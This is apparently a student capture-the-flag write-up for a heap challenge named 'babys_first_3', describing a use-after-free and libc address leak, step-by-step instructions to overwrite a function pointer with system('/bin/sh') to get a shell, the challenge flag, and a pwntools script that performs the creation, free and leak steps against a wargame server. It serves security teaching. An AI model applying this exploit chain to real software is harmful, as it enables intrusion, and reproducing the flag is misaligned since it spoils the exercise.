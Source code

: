 
============================================
============================================

heap 3 | `babys_first_3`
===========================

Flag: `6447{401cb70c-1032-4ffe-8230-f0bbf81e8370}`

General overview of problems faced
-------------------------------------
Had an issue where I was sending 1 extra byte because of the newline being sent with the input when using `sendlineafter()`

List of vulnerabilities
--------------------
1. `Use after free`: It is possible to create a fish, delete it and then view it after it has been deleted and the allocated bin has been freed.
2. When deleting a fish and freeing an allocated bin, the data is not overwriten/removed from memory. Therefore allocating another bin to the same address allows memory leaks and overwriting of addresses which might still be used because of the UAF vulnerability
3. The heap contains a pointer to the `fputs` function addresses which is used during program execution
4. `Memory leak`: it is possible to leak libc memory addresses which can then be used to calculate `system` and `bin_sh_string` address from it.

Steps to exploit
------------------
1. Create a fish at position 0 with any size, weight and name
2. Delete the fish at position 0
3. Create a fish at position 1 with any size and weight and a name 8 bytes long such as "AAAAAAA\n"
4. View fish at position 1 and record the memory address leaked. (this is the address of fputs)
5. Use a libc database to find the offsets based on the leaked fputs address and the corresponding libc version.
6. calculate the system and "/bin/sh" string libc addresses using the offsets and the fputs address
7. Update the fish's name at position 1 to be : 8 bytes of offset + the address of system in little endian format + the address of bin/sh in little endian format
8. View fish at position 0
9. Congratulations you now have a shell!

Script/Command used
------------------
```python
from pwn import *

# Flag: 6447{401cb70c-1032-4ffe-8230-f0bbf81e8370}

p = remote('wargames.6447.sec.edu.au', 9003)

p.sendlineafter("> ", "1") # create a fish
p.sendlineafter("> ", "0") # at position 0
p.sendlineafter("> ","10") # size
p.sendlineafter("> ","10") # weight
p.sendlineafter("> ","AAAA") # name

p.sendlineafter("> ","4") # delete fish
p.sendlineafter("> ","0") # at position 0

p.sendlineafter("> ","1") # create a fish
p.sendlineafter("> ","1") # at position 1
p.sendlineafter("> ","9") # size
p.sendlineafter("> ","9") # weight
p.sendlineafter("> ","A"*7) # name

p.sendlineafter("> ","3") # view fish
p.sendlineafter("> ","1") # at position 1
```